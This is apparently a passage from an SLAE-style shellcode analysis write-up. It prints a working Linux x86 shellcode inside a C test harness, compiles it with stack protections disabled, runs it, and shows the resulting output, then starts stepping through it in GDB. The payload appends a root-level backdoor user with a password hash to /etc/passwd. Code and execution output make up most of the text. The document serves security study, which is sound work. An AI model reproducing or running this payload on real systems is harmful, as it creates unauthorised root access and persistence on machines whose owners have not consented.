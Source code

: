 ```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x26\x00\x00\x00\x61\x62"
"\x73\x6f\x6c\x6f\x6d\x62\x3a\x41\x7a\x33\x67\x2e\x7a\x62\x71"
"\x39\x63\x72\x37\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62"
"\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80"
"\x6a\x01\x58\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Now we can compile.
```
root@kali:~/SLAE# gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
```

Let's test to make sure our shellcode actually works as intended.

```
root@kali:~/SLAE# ./shellcode 
Shellcode Length:  40
root@kali:~/SLAE# cat /etc/passwd | grep absolomb
absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh
```

And we can see that our new user has indeed been added to /etc/passwd. 

Let's fire up GDB. Along with it we'll also be using PEDA to make things even easier.

We'll first set a breakpoint at `code` which is the start of our shellcode. 

```
root@kali:~/SLAE# gdb -q ./shellcode
gdb-peda$ break *&code
Breakpoint 1 at 0x2040
gdb-peda$ r
Starting program: /root/SLAE/shellcode 
Shellcode Length:  40

[----------------------------------registers-----------------------------------]
EAX: 0x402040 --> 0xcb89c931 
EBX: 0x402000 --> 0x1efc 
ECX: 0x16 
EDX: 0xb7fa4870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff36c --> 0x40059d (<main+80>:	mov    eax,0x0)
EIP: 0x402040 --> 0xcb89c931
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40203a:	add    BYTE PTR [eax],al
   0x40203c:	add    BYTE PTR [eax],al
   0x40203e:	add    BYTE PTR [eax],al
=> 0x402040 <code>:	xor    ecx,ecx
```